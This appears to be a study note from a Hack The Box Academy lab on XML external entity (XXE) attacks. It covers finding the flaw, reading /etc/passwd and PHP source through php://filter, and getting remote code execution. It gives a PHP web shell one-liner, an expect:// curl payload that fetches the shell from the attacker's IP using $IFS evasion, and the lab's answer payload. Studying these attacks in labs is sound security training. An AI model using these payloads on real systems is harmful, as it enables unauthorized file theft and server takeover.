 ```yaml
---
description: >-
  When a web application trusts unfiltered XML data from user input, we may be
  able to reference an external XML DTD document and define new custom XML
  entities
---
```


# Local File Disclosure

## Identification

1. find page that accept XML input

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/index.php</p></figcaption></figure>

if we click Send Data, the request will be as following

![xxe\_request](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_request.jpg)

The application is sending data in XML format to web server. If the web app uses outdated XML libraries and sanitize or have any filters, we may be able to exploit this XML to read local files.

![xxe\_response](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_response.jpg)

The value of email element is returned back to us `email@xxe.htb`. This is **important to know what element is displayed back** so we know where to inject.

Now try to create new entity to be placed in the `email` element and see if it gets replaced with the defined value.

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

{% hint style="info" %}
In the original request it has no DTD in the XML data or being referenced externally so we add new DTD before defining our entity (if DOCTYPE was already defined, we can just ignore it and add the entity alone)
{% endhint %}

![new\_entity](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_new\_entity.jpg)

As seen in the response we referenced the entity and it was replaced with `Inlane Freight` This confirms that the web app is vulnerable to XXE.

> a non-vulnerable web application would display (`&company;`) as a raw value.

{% hint style="info" %}
Some web app may use JSON by default but also accept XML. So it's worth trying XML by changing the Content-Type to application/xml and [convert the JSON request to XML](https://www.convertjson.com/json-to-xml.htm)
{% endhint %}

## Reading Sensitive Files

Doing the same steps as [Identification](local-file-disclosure.md#identification) but we will add the SYSTEM keyword and define external reference path as a value after it.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![external\_entity](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_external\_entity.jpg)

**we have successfully exploited the XXE vulnerability to read local files**

> Check for config files, SSH keys, and other use full files that might help on compromising the system.

## Reading Source Code

This might reveal secret configurations like database passwords or API keys.

![file\_php](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_file\_php.jpg)

**The file is not in a proper XML format**, so it fails to be referenced as an external XML entity. **If a file contains some of XML's special characters (e.g. \</>/&), it would break the external entity reference** and not be used for the reference.

We can use PHP wrapper filter to encode the contents to base64, Instead of using `file://` we use `php://filter/` wrapper and specify `convert.base64-encode` following with the file name.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![file\_php](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_php\_filter.jpg)

{% hint style="warning" %}
This encoding technique only works with PHP web app!
{% endhint %}

## RCE with XXE

Best way

* Look for `id_rsa` file, or
* Steal hash from windows

**Other way**

* Execute command using `PHP://expect` (only works when expect is installed and enabled)

Most efficient to turn XXE -> RCE is fetching web shell from our server and writing it to web app

**On attack machine**

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

**XML body**

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

&#x20;Note that all spaces are replaced with $IFS as learned in [filter-evasion.md](../../command-injection/filter-evasion.md "mention") to not break the syntax (other special characters may break the code so try avoiding them)

Once sent we will get the recieve message for shell.php file in our console and we can interact with the web shell for code execution.

## Other XXE Attacks

* **SSRF exploitation ->** used to enumerate locally open ports and access their pages
* **DOS ->** causing self-reference loops
  * no longer works on modern web servers becase they protect against entitiy self-reference

## Assessment

Try to read the content of the 'connection.php' file, and submit the value of the 'api\_key' as the answer.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>email element is the target</p></figcaption></figure>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY target SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
<name></name>
<tel></tel>
<email>&target;</email>
<message></message>
</root>
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg</p></figcaption></figure>
